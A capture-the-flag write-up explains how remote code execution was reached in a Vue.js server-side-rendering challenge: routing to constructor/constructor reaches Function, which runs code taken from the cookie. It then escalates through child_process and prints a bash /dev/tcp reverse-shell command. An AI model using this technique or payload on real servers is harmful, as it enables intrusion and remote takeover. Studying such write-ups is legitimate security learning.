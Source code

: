 ## SSR

This is a web challenge with Vue.js + Vue.js SSR(Server-Side-Rendering). I found that SSR works with same JS code given to client after some requests to server.

The url is like below, and the user data is JSON-encoded to the cookie.

`http://ssr.tasks.ctf.codeblue.jp/idols/0/say1`

In js side(I don't have it now), the URL is routed like:

```
routes.add('/idols/:id/:action', handler)
...

var idols = {
	// predefined objects with id, action.
};
handler = (id, action) => {
	var actions = idols[id][action];
	var user = JSON.parse(cookie.user); // Let's assume that cookie has user=... value.
	var obj = actions(user.data);
	return obj();
}
```

If I give url `idols/constructor/constructor` to it, since in js idols.a == idols['a'], it loads {}.constructor.constructor == Object.constructor == Function, and user.data is controlled by user, too. Then,

```js
    var user = JSON.parse(cookie.user); // user = { ... user controlled data ... }
    var obj = actions(user.data) // == Function(... controlled data ...)
    return obj() // == function() { ... controlled data ... } ()
```

So it causes RCE in server via SSR. The JS context itself doesn't have `require` on global object, but process.mainModule has. We can use `process.mainModule.require("child_process").exec("command in sh")` to get reverse shell. Since it's sh, not bash, [this payload](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) works.

```
bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

I changed the server information. The server has flag.
